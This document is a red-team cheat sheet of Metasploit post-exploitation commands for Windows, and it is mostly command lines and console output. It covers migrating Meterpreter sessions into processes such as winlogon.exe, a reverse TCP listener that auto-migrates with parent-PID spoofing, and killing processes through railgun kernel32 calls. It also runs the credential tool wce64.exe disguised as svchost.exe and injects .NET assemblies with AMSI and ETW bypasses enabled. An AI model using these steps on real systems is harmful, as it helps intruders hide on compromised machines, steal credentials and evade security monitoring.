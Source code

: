 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - metasploit-framework
  - windows
---
```

# Metasploit

## 01 - Migrate Process

```
meterpreter > migrate <pid>

meterpreter > migrate -P <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

## 02 - Auto Migrate to Another Process

Setting up listener to auto migrate to another process.

```
msf exploit(multi/handler) > set lhost 10.0.2.4

msf exploit(multi/handler) > set lport 4444

msf exploit(multi/handler) > set autorunscript post/windows/manage/migrate name=notepad.exe

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Sending stage (200262 bytes) to 10.0.2.15
[*] Session ID 4 (10.0.2.4:4444 -> 10.0.2.15:49840 ) processing AutoRunScript 'post/windows/manage/migrate name=notepad.exe'
[*] Running module against DEFALT
[*] Current server process: powershell.exe (1136)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1280
[+] Successfully migrated into process 1280
[*] Meterpreter session 4 opened (10.0.2.4:4444 -> 10.0.2.15:49840 ) at 2022-05-15 15:35:51 -0400
```

Check the process identifer.

```
meterpreter > getpid
Current pid: 1280
```

TODO: Fill this info

```
msf > use post/windows/manage/priv_migrate
```

```
msf > use post/windows/manage/archmigrate
```

## 03 - Terminate Process

### 3.1 - Process ID

Terminate process ID.

![[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^ce813b]]

We'll create a new handle by retrieving the process ID. Then define a process handle `_['return']` after the conditions has been met. Terminate by calling the railgun function with zero exit code as an indication the process has been killed.

```
meterpreter > irb

>> client.railgun.kernel32.OpenProcess("PROCESS_TERMINATE", false, <pid>)

>> process_handle = _['return'] -> define a process handle

>> client.railgun.kernel32.TerminateProcess(process_handle, 0)
```

### 3.2 - Process Name

![[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^365cba]]

## 04 - Inject Process

### 4.1 - Execute Process

Spawn a executable program as a dummy process with `-d` flag.

```
meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"
```

### 4.2 - .NET CLR Assembly

```
msf > use post/windows/manage/execute_dotnet_assembly

msf post(windows/manage/execute_dotnet_assembly) > options

Module options (post/windows/manage/execute_dotnet_assembly):

  Name            Current Setting  Required  Description
  ----            ---------------  --------  -----------
  AMSIBYPASS      true             yes       Enable Amsi bypass
  ARGUMENTS                        no        Command line arguments
  DOTNET_EXE                       yes       Assembly file name
  ETWBYPASS       true             yes       Enable Etw bypass
  PID             0                no        Pid  to inject
  PPID            0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
  PROCESS         notepad.exe      no        Process to spawn
  SESSION                          yes       The session to run this module on
  Signature       Automatic        yes       The Main function signature (Accepted: Automatic, Main(), Main(string[]))
  USETHREADTOKEN  true             no        Spawn process with thread impersonation
  WAIT            10               no        Time in seconds to wait


View the full module info with the info, or info -d command.

msf post(windows/manage/execute_dotnet_assembly) > set dotnet_exe /path/to/compiled_dotnet_tool.exe

msf post(windows/manage/execute_dotnet_assembly) > set arguments [arguments]

msf post(windows/manage/execute_dotnet_assembly) > set signature <Automatic | Main() | Main(string[])>

msf post(windows/manage/execute_dotnet_assembly) > set amsibypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set etwbypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set process [process_name.exe]

msf post(windows/manage/execute_dotnet_assembly) > set pid [process_ID]

msf post(windows/manage/execute_dotnet_assembly) > set ppid [<parent_process_ID>]

msf post(windows/manage/execute_dotnet_assembly) > set usethreadtoken [true | false]

msf post(windows/manage/execute_dotnet_assembly) > set wait [seconds]

msf post(windows/manage/execute_dotnet_assembly) > set session <session_ID>

msf post(windows/manage/execute_dotnet_assembly) > run
```

`meterpeter` one-liner execution.

```
meterpreter > run post/windows/manage/execute_dotnet_assembly dotnet_exe=/path/to/compiled_dotnet_tool.exe [arguments="<arguments>"] signature=<Automatic | Main() | Main(string[])> set amsibypass=<true | false> etwbypass=<true | false> [process=<process_name>.exe] [pid=<process_ID>] [ppid=<parent_process_ID>] [usethreadtoken=<true | false>] [wait=<seconds>]
```

---
## References

### Hacking Articles

- [Hacking Articles: Metasploit for Pentester Migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/)

### Pentestlab

- [Pentestlab: Parent PID Spoofing](https://pentestlab.blog/2020/02/24/parent-pid-spoofing/)